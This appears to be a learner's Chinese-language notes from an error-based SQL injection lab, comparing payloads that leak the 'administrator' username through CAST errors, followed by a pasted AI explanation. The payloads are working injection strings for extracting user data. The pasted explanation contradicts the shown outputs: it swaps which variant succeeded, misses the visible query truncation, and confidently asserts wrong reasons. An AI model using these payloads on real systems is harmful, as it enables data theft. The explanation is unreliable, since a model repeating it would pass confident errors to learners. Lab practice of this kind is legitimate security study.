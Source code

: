 payload_test("' AND 1=CAST((select username from users LIMIT 1 ) as int) -- ")
回傳
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '' AND 1=CAST((select username from users LIMIT 1 ) as int) -'. Expected  char

payload_test("' AND 1=CAST((select username from users LIMIT 1 ) as int)-- ")
回傳
ERROR: invalid input syntax for type integer: "administrator"

為啥麼差一個空白回傳就不一樣了


但payload_test(TRACKING_ID+"' AND 1=CAST((select username from users ) as int ) -- ")
與payload_test(TRACKING_ID+"' AND 1=CAST((select username from users ) as int )-- ")
差一個空白回傳卻沒有差異都是
    # Unterminated string literal started at position 95 in SQL 
    # SELECT * FROM tracking WHERE id = '3Zj4aNJsJw9ZO83a' AND 1=CAST((select username from users ) a'
    # . Expected  char



AI解釋如下，我有看沒有懂QQ

你這個現象主要是 **SQL parser 在處理註解符號 `--` 時，是否需要尾隨空白** 的差異。
我們來逐步拆解：

---

### 1. SQL 標準裡的 `--`

在 SQL 標準 (ANSI SQL) 中，行內註解的寫法是：

```sql
--<空白> comment text
```

👉 也就是 `--` **後面必須至少有一個空白** 才會被辨識為註解。
如果沒有空白 (`--abc`)，不同資料庫的 parser 可能直接當成運算子或語法錯誤。

---

### 2. 你的第一個測試

```sql
' AND 1=CAST((select username from users LIMIT 1 ) as int) -- "
```

這裡 `--␣` (有空白)，所以 SQL 解析器認為後面全部註解掉了。
因此它實際看到的就是：

```sql
SELECT * FROM tracking WHERE id = '' AND 1=CAST((select username from users LIMIT 1 ) as int)
```

結果 → 因為 `username` 是字串 `"administrator"`，`CAST(... as int)` 失敗，報錯：

```
ERROR: invalid input syntax for type integer: "administrator"
```

---

### 3. 你的第二個測試

```sql
' AND 1=CAST((select username from users LIMIT 1 ) as int)-- "
```

這裡 `--` 後**沒有空白**，PostgreSQL/MySQL 會把它當成普通 token，而不是註解。
所以 SQL 解析器覺得後面還有一個 `-` 或字串沒結束，導致 **Unterminated string literal**。

---

### 4. 你後來的測試

```python
payload_test(TRACKING_ID+"' AND 1=CAST((select username from users ) as int ) -- ")
payload_test(TRACKING_ID+"' AND 1=CAST((select username from users ) as int )-- ")
```

為什麼這兩個都一樣 → 因為 **前面已經有一個開頭的字串 `'3Zj4aNJsJw9ZO83a'`**，你的 payload 被拼接後是：

```sql
SELECT * FROM tracking 
WHERE id = '3Zj4aNJsJw9ZO83a' AND 1=CAST((select username from users ) as int )--...
```

此時 SQL parser 在看到 `as int )--` 之前就已經判定語法有問題（因為子查詢 `select username from users` 沒有 `LIMIT`、回傳多筆字串、不能直接 cast 成 int），所以根本還沒走到註解解析，兩種寫法就報同樣的錯了。

---

✅ **總結**

1. 在大部分資料庫裡，`--` 後面要有空白或換行才會被視為註解。
2. 少了空白，parser 會把 `--` 當成語法的一部分，常常導致「字串未結束」或「無效 token」錯誤。
3. 在你的後面案例中，因為語法早就錯了，所以有無空白都報同樣錯。

---

要穩定利用 `--` 註解，建議統一寫：

```sql
--␣
```

或直接用 `#`（MySQL） / `/* ... */`（跨資料庫通用）。

要不要我幫你整理一份 **不同資料庫 (MySQL / PostgreSQL / Oracle / SQL Server) 的註解行為差異表**？
